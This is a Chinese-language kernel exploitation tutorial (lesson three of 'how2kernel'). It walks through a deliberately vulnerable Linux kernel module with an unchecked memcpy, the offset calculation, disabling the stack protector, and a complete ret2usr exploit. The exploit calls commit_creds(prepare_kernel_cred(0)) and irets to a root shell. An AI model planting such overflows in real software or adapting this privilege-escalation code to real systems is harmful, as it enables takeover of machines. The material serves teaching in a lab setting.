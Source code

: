 # how2kernel————第三节stack_smashing

## Author: Wenhuo

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>无论是kernel态还是用户态都存在栈溢出，这也是漏洞中十分经典的一种。原理都是一样的，没有对缓冲区的大小进行检查，溢出覆盖至返回地址就可以劫持程序流程控制之。因为有了前两节的铺垫了理解这个应该不会难，先来看漏洞代码：</font></br>

```C
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/proc_fs.h>

int bug2_write(struct file *file, const char *buf, unsigned long len)
{
    char localbuf[8];
    memcpy(localbuf, buf, len);
    return len;
}

static int __init stack_smashing_init(void)
{
    printk(KERN_ALERT "stack_smashing driver init!\n");
    create_proc_entry("bug2", 0666, 0)->write_proc = bug2_write;
    return 0;
}

static void __exit stack_smashing_exit(void)
{
    printk(KERN_ALERT "stack_smashing driver exit!\n");
}

module_init(stack_smashing_init);
module_exit(stack_smashing_exit);
```

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

int main()
{
    char buf[24] = {0};
    memset(buf, 'A', 24);
    *((void **)(buf + 20)) = 0x42424242;
    int fd = open("/proc/bug2", O_WRONLY);
    write(fd, buf, sizeof(buf));
    return 0;
}

```



**Makefile**

```makefile
obj-m := stack_smashing.o  

KERNELDR := /home/fanda/Desktop/file/linux-2.6.32.1
BUSYDIR  := /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest
PWD := $(shell pwd)  

modules:  
	$(MAKE) -C $(KERNELDR) M=$(PWD) modules  
	gcc -o poc poc.c -static
	rm $(BUSYDIR)/*.ko
	cp *.ko $(BUSYDIR)
	cp poc $(BUSYDIR)
	cd $(BUSYDIR)/../ && find . | cpio -o --format=newc > ../rootfs.img
clean:  
	rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>用boot.sh启动qemu之后，直接执行poc可以发现eip最后地址为0x42424242（如果不行的话应该是开了栈保护，编辑linux kernel目录下的**\.config**文件，注释掉"CONFIG\_CC\_STACKPROTECTOR=y"重新make一下就行了），偏移可以根据调试得到，函数ret末尾的汇编如下：</font></br>

```assembly
   0xc883001e <bug2_write+30>    je     bug2_write+34 <0xc8830022>
    ↓
   0xc8830022 <bug2_write+34>    add    esp, 8
   0xc8830025 <bug2_write+37>    pop    esi
   0xc8830026 <bug2_write+38>    pop    edi
   0xc8830027 <bug2_write+39>    pop    ebp
 ► 0xc8830028 <bug2_write+40>    ret    <0x8048ea2>

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最后需要填充的大小为8（add esp,8）+4（pop esi）+4（pop edi）+4（pop ebp）=20，随后的一个4就会被ret放入eip返回，成功劫持流程。知道了如何劫持流程之后我们很轻松的用commit_creds(prepare_kernel_cred(0))提权，但难处就在于如何返回一个用户层的shell（**我们不能在kernel态直接执行用户层的代码'system("/bin/sh");'来getshell**）。这里我们就用到了ROP，ROP是栈溢出中一个非常经典的技术，在这道题中我们可以**自己编写ROP**。所以我们的步骤是：</font></br>

- 构造好**trap_frame**结构；
- 控制eip到ROP跳板指令上；
- 用ROP指令返回到用户层的system("/bin/sh")。

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>那么问题来了，trap_frame结构是什么？在Linux中，程序执行时从kernel态返回到用户态时要执行一个“iret”指令，这个指令可以理解为“ret”指令的升级版。对于“ret”指令来说，可以理解为就是一个简单的“pop eip”，而“iret”指令相当于把栈上的trap_frame结构一个一个pop给相应的寄存器，这个trap_frame结构如下表示：</font></br>

```C
struct trap_frame {
    void *eip;       // instruction pointer +0
    uint32_t cs;     // code segment +4
    uint32_t eflags; // CPU flags +8
    void *esp;       // stack pointer +12
    uint32_t ss;     // stack segment +16
} __attribute__((packed));
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这个\_\_attributu\_\_((packed))是GNU C的一大特点，这个声明了struct采用紧缩型结构，也就是不存在对齐行为。里面的变量有多大，这个struct结构体就有多大。现在我们明白了内核态的栈上有这么一个东西后就可以开始着手构造exploit了：</font></br>

- 构造trap_frame结构，设置其中的eip为system("/bin/sh")；
- 控制内核态中的eip执行提权指令后执行ROP指令
- ROP指令为设置esp为构造的trap_frame地址后用iret返回
- getshell

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>所以最终我们的poc如下：</font></br>

**poc**

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <stdint.h>

struct trap_frame {
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
}__attribute__((packed));

struct trap_frame tf;

void get_shell(void)
{
    execl("/bin/sh", "sh", NULL);
}

void init_tf_work(void)
{
    asm("pushl %cs; popl tf+4;" // set cs
        "pushfl; popl tf+8;" // set eflags
        "pushl %esp; popl tf+12;"
        "pushl %ss; popl tf+16;");
    tf.eip = &get_shell;
    tf.esp -= 1024;
}
#define KERNCALL __attribute__((regparm(3)))
void *(*prepare_kernel_cred)(void *) KERNCALL = (void *) 0xc1067b20;
void *(*commit_creds)(void *) KERNCALL = (void *) 0xc1067980;

void payload(void)
{
    commit_creds(prepare_kernel_cred(0));
    asm("mov $tf, %esp;"
        "iret;");
}

int main(void)
{
    char buf[24];
    memset(buf, 'A', 24);
    *((void **)(buf+20)) = &payload; // set eip to payload
    init_tf_work();
    int fd = open("/proc/bug2", O_WRONLY);
    // exploit
    write(fd, buf, sizeof(buf));
    return 0;
}

```

## 附录

**remote gdb**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>gdbscript稍加更改就可以用了，同样使用cat /proc/modules查看模块的基地址。提权函数的地址可以使用grep prepare_kernel_cred /proc/kallsyms得到。我的gdbscript如下：</font></br>

```shell
file /home/fanda/Desktop/file/linux-2.6.32.1/vmlinux
add-symbol-file /home/fanda/Desktop/file/busybox-1.29.3/_install/mytest/stack_smashing.ko  0xc8830000
target remote :1234
b bug2_write
c
```

**makeuser**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>创建用户，安装模块啥的用上一节的makeuser.sh就行了。</font></br>
